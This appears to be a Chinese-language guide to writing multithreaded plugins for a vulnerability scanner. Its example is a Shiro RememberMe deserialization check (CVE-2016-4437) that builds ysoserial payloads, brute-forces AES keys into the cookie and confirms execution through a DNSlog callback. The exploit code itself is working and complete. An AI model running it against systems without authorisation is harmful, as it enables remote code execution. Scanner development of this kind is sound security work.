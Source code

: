```python
    try:
        for key in CipherKey:
            DL = Dnslog()
            popen = subprocess.Popen(["java", "-jar", YsoserialPath, ExpClass, DL.dns_host()], stdout=subprocess.PIPE)
            file_body = PAD_FUNC((popen).stdout.read())
            Pool.Append(task,Pool=Pool,Url=url,file_body=file_body,key=key,AES_MODE=AES_MODE,AES_IV=AES_IV,payload_url=payload_url,DL=DL,proxies=proxies,Uid=kwargs.get("Uid"),Sid=kwargs.get("Sid"))
        Pool.Start(20)#启动线程池
    except Exception as e:
        _ = VulnerabilityInfo('').info.get('algroup')
        ErrorLog().Write("Plugin Name:"+_+" ThreadPool ",e)  # 调用写入类传入URL和错误插件名

```

##### 注意点：

- 所有全局变量都存放这边，也就是说这个参数并不会在后面需要改变了，比如处理好的目标连接`payload_url `、**ysoserial.jar**的路径地址`YsoserialPath`、循环使用**Key**的列表`CipherKey`等参数都存放到这个函数中
- 循环调用需要在`try....except`中
- 如果所执行的代码在其他线程中的判断也能找到的话，该代码需要写在`for`循环中，比如上面的`Dnslog()`函数，如果所有线程都使用同一个DNSLOG的话就会导致如果其中一个执行成功，后面的所有线程都能找到请求的这个值，导致大量的误报
- 每个多线程必须`for`循环上面定义一个 `ThreadPool()`线程池，然后使用进程池中的`Append()`函数发送到进程池中，最后循环结束后调用线程池中的`Start(10)`函数来启动所有的线程
- `Append()`函数的第一个参数必须是需要调用的函数，这边统一叫做`task`函数，传入的参数必须添加`Uid=kwargs.get("Uid")`和`Sid=kwargs.get("Sid")`参数
- `task`函数需要使用到的参数、初始化的后的类都必须使用`Append()`函数来传入，具体方式见上述函数用法

### task函数

```python
def task(**kwargs):
    DL=kwargs.get("DL")
    payload_url=kwargs.get("payload_url")
    key=kwargs.get("key")
    url=kwargs.get("Url")
    try:
        encryptor = AES.new(base64.b64decode(key), kwargs.get("AES_MODE"), kwargs.get("AES_IV"))
        base64_ciphertext = base64.b64encode(kwargs.get("AES_IV") + encryptor.encrypt(kwargs.get("file_body")))
        cookies = {"jeesite.session.id": "3f8a61ec-27e2-425c-9724-f96ba0c1e512",
                   "rememberMe": base64_ciphertext.decode()}
        resp=requests.get(payload_url, cookies=cookies,  proxies=kwargs.get("proxies"), timeout=6, verify=False)
        time.sleep(3)
        if DL.result():
            Medusa = "{} 存在ShiroRememberMe反序列化命令执行漏洞(CVE-2016-4437)\r\n验证数据:\r\n漏洞位置:{}\r\n秘钥:{}\r\nHeaders请求头:{}\r\nDNSLOG请求值:{}\r\nDNSLOG数据:{}\r\n".format(
                url, payload_url, key, cookies, DL.dns_host(), DL.dns_text())
            _t = VulnerabilityInfo(Medusa)
            VulnerabilityDetails(_t.info, resp, **kwargs).Write()  # 传入url和扫描到的数据
            WriteFile().result(str(url), str(Medusa))  # 写入文件，url为目标文件名统一传入，Medusa为结果
    except Exception as e:
        _ = VulnerabilityInfo('').info.get('algroup')
        ErrorHandling().Outlier(e, _)
        ErrorLog().Write(e)  # 调用写入类传入URL和错误插件名
```

